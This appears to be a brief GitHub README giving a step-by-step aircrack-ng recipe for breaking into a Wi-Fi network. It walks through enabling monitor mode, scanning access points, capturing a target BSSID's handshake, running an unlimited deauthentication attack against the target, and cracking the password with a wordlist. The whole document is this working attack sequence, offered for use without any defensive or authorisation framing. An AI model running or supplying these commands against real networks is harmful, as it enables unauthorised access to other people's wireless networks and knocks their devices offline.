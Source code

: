 # Aircrack suite

## TIP: All commands must be run with sudo

### Usage:

#### 1) airmon-ng start wlan0 (Assuming that the Wi-Fi interface is wlan0) (Check with iwconfig if the interface went to monitor mode)

#### 2) airodump-ng wlan0mon (Scans for Access Points' SSIDs and BSSIDs or simply a 48-bit MAC around us)

#### 3) airodump-ng wlan0mon -c NUM --bssid TARGET_BSSID -w pwd (NUM represents the channel the target is tuned in. Tune in your target, then wait to capture the handshake, then save it as a .cap file)

#### 4) aireplay-ng --deauth 0 -a TARGET_BSSID wlan0mon (Perform a deauthentication attack against the target)

#### 5) aircrack-ng HANDSHAKE_FILE.cap -w WORDLIST.txt (Crack the Wi-Fi password)

